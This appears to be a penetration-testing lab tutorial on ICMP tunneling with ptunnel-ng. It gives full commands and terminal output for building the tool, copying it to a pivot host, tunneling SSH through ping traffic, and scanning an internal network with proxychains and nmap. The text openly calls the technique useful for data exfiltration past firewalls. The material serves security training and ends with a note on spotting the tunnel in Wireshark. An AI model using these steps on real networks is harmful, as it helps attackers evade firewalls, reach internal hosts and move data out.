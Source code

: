 ICMP tunneling encapsulates your traffic within `ICMP packets` containing `echo requests` and `responses`. 
* ICMP tunneling would only work when ping responses are permitted within a firewalled network. 
* When a host within a firewalled network is allowed to ping an external server, it can encapsulate its traffic within the ping echo request and send it to an external server. 
* The external server can validate this traffic and send an appropriate response, which is extremely useful for data exfiltration and creating pivot tunnels to an external server.

We will use the [ptunnel-ng](https://github.com/utoni/ptunnel-ng) tool to create a tunnel between our Ubuntu server and our attack host. 
* Once a tunnel is created, we will be able to proxy our traffic through the `ptunnel-ng client`. We can start the `ptunnel-ng server` on the target pivot host. 
* Let's start by setting up ptunnel-ng.
## Setting Up & Using ptunnel-ng

If ptunnel-ng is not on our attack host, we can clone the project using git.

#### Cloning Ptunnel-ng

ICMP Tunneling with SOCKS

```shell-session
canklesmaks@htb[/htb]$ git clone https://github.com/utoni/ptunnel-ng.git
```

Once the ptunnel-ng repo is cloned to our attack host, we can run the `autogen.sh` script located at the root of the ptunnel-ng directory.

#### Building Ptunnel-ng with Autogen.sh

ICMP Tunneling with SOCKS

```shell-session
canklesmaks@htb[/htb]$ sudo ./autogen.sh 
```

After running autogen.sh, ptunnel-ng can be used from the client and server-side. 
* We will now need to transfer the repo from our attack host to the target host. 
* As in previous sections, we can use SCP to transfer the files. 
* If we want to transfer the entire repo and the files contained inside, we will need to use the `-r` option with SCP.

After running autogen.sh, ptunnel-ng can be used from the client and server-side. 
* We will now need to transfer the repo from our attack host to the target host. As in previous sections, we can use SCP to transfer the files. 
* If we want to transfer the entire repo and the files contained inside, we will need to use the `-r` option with SCP.

#### Alternative approach of building a static binary

ICMP Tunneling with SOCKS

```shell-session
canklesmaks@htb[/htb]$ sudo apt install automake autoconf -y
canklesmaks@htb[/htb]$ cd ptunnel-ng/
canklesmaks@htb[/htb]$ sed -i '$s/.*/LDFLAGS=-static "${NEW_WD}\/configure" --enable-static $@ \&\& make clean \&\& make -j${BUILDJOBS:-4} all/' autogen.sh
canklesmaks@htb[/htb]$ ./autogen.sh
```

#### Transferring Ptunnel-ng to the Pivot Host

ICMP Tunneling with SOCKS

```shell-session
canklesmaks@htb[/htb]$ scp -r ptunnel-ng ubuntu@10.129.202.64:~/
```

With ptunnel-ng on the target host, we can start the server-side of the ICMP tunnel using the command directly below.

#### Starting the ptunnel-ng Server on the Target Host

ICMP Tunneling with SOCKS

```shell-session
ubuntu@WEB01:~/ptunnel-ng/src$ sudo ./ptunnel-ng -r10.129.202.64 -R22

[sudo] password for ubuntu: 
./ptunnel-ng: /lib/x86_64-linux-gnu/libselinux.so.1: no version information available (required by ./ptunnel-ng)
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
```

The IP address following `-r` should be the IP of the jump-box we want ptunnel-ng to accept connections on. 
* In this case, whatever IP is reachable from our attack host would be what we would use. We would benefit from using this same thinking & consideration during an actual engagement.

Back on the attack host, we can attempt to connect to the ptunnel-ng server (`-p <ipAddressofTarget>`) but ensure this happens through local port 2222 (`-l2222`). 
* Connecting through local port 2222 allows us to send traffic through the ICMP tunnel.

#### Connecting to ptunnel-ng Server from Attack Host

ICMP Tunneling with SOCKS

```shell-session
canklesmaks@htb[/htb]$ sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22

[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.
```

With the ptunnel-ng ICMP tunnel successfully established, we can attempt to connect to the target using SSH through local port 2222 (`-p2222`).

#### Tunneling an SSH connection through an ICMP Tunnel

ICMP Tunneling with SOCKS

```shell-session
canklesmaks@htb[/htb]$ ssh -p2222 -lubuntu 127.0.0.1

ubuntu@127.0.0.1's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 11 May 2022 03:10:15 PM UTC

  System load:             0.0
  Usage of /:              39.6% of 13.72GB
  Memory usage:            37%
  Swap usage:              0%
  Processes:               183
  Users logged in:         1
  IPv4 address for ens192: 10.129.202.64
  IPv6 address for ens192: dead:beef::250:56ff:feb9:52eb
  IPv4 address for ens224: 172.16.5.129

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

144 updates can be applied immediately.
97 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


Last login: Wed May 11 14:53:22 2022 from 10.10.14.18
ubuntu@WEB01:~$ 
```


We could use proxychains with Nmap to scan targets on the internal network (172.16.5.x). Based on our discoveries, we can attempt to connect to the target.

#### Proxychaining through the ICMP Tunnel

ICMP Tunneling with SOCKS

```shell-session
canklesmaks@htb[/htb]$ proxychains nmap -sV -sT 172.16.5.19 -p3389

ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-11 11:10 EDT
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:80-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:3389-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:3389-<><>-OK
Nmap scan report for 172.16.5.19
Host is up (0.12s latency).

PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.78 seconds
```

---

## Network Traffic Analysis Considerations

It is important that we confirm the tools we are using are performing as advertised and that we have set up & are operating them properly. 
* In the case of tunneling traffic through different protocols taught in this section with ICMP tunneling, we can benefit from analyzing the traffic we generate with a packet analyzer like `Wireshark`. 
In the first part of this clip, a connection is established over SSH without using ICMP tunneling. We may notice that `TCP` & `SSHv2` traffic is captured.

The command used in the clip: `ssh ubuntu@10.129.202.64`

In the second part of this clip, a connection is established over SSH using ICMP tunneling. Notice the type of traffic that is captured when this is performed.

Command used in clip: `ssh -p2222 -lubuntu 127.0.0.1`